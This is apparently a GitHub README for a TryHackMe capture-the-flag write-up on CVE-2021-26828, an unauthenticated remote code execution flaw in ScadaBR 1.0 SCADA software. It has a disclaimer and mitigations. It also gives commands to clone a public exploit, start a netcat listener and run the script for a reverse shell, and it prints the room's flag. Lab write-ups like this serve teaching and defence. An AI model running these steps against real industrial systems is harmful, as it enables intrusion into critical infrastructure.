



# CVE-2021-26828 – ScadaBR 1.0 Remote Code Execution (TryHackMe – Industrial Intrusion: Web Brr v1)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes only.  
The information and code provided here can be used in **controlled environments**, such as private lab machines or platforms like TryHackMe.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is not responsible for any misuse or damages caused.

---

## 🔍 About the Vulnerability

An unauthenticated Remote Code Execution vulnerability exists in **ScadaBR 1.0**, which is based on the **Mango M2M** framework.  
This vulnerability (CVE-2021-26828) allows attackers to inject arbitrary code through the SQL script execution mechanism.

In TryHackMe's *Industrial Intrusion* room (Task 10 – Web Brr v1), a forgotten HMI node was found running a vulnerable ScadaBR interface that could be exploited using this CVE.

- **CVE ID:** CVE-2021-26828  
- **Exploit-DB:** Not listed (hosted on GitHub)  
- **Vulnerable Application:** ScadaBR 1.0 (Mango M2M fork)  
- **Impact:** Remote Code Execution  
- **Authentication Required:** ❌ No (depending on deployment)  
- **Network Access Required:** ✅ Yes  

---

## 📂 Exploit Overview

- **Exploit Type:** Script Injection → Reverse Shell  
- **Exploit Title:** ScadaBR 1.0 – Remote Code Execution  
- **Source:** [hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- **Language:** Python  
- **Authentication Required:** ❌ No  

---

## ⚙️ Exploit Usage

> 🐍 Exploit script: `exploit.py` from the GitHub repository

### 🔧 Modify and Run

1. Clone the repo:
   ```bash
   git clone https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE
   cd CVE-2021-26828_ScadaBR_RCE
   ```

2. Edit the script to match your listener port and target IP if needed.

3. Start your Netcat listener:
   ```bash
   nc -nlvp 4444
   ```

4. Run the exploit:
   ```bash
   python3 exploit.py --rhost <target-ip> --lhost <your-ip> --lport 4444
   ```

> ✅ A reverse shell should be returned to your listener on successful execution.

---

## 📸 Demonstration

1. **Accessing the Vulnerable SCADA Interface**  
   

2. **Running the Exploit Script**  
   

3. **Reverse Shell Received**  
   

> 💡 *Images are optional and can be hosted via GitHub issues or embedded as needed.*

---

## 🏁 Flag Captured

After gaining shell access in the TryHackMe room, the flag was retrieved using:

```bash
cat /home/user/flag.txt
```

### 🎉 Flag:
```
THM{rce_archieved_through_script_injection}
```

---

## 🔒 Mitigation

- Upgrade to a secure or maintained version of ScadaBR or Mango  
- Disable SQL script execution features if not in use  
- Enforce network segmentation for SCADA/HMI systems  
- Monitor for unusual outbound traffic from SCADA zones  
- Restrict public exposure of SCADA interfaces and admin panels  

---

## 📚 References

- [https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE](https://github.com/hev0x/CVE-2021-26828_ScadaBR_RCE)  
- [TryHackMe – Industrial Intrusion](https://tryhackme.com/room/industrialintrusion)

---

## ✍️ Blog Walkthrough

Check out the detailed explanation and lab demonstration in the Medium blog:  
👉 **[Read the Medium blog](https://medium.com/@sakshi.infosec)**

---

## 👩‍💻 Author

**CyberQuestor-infosec**  
🔗 [GitHub](https://github.com/CyberQuestor-infosec) | ✍️ [Medium](https://medium.com/@sakshi.infosec)
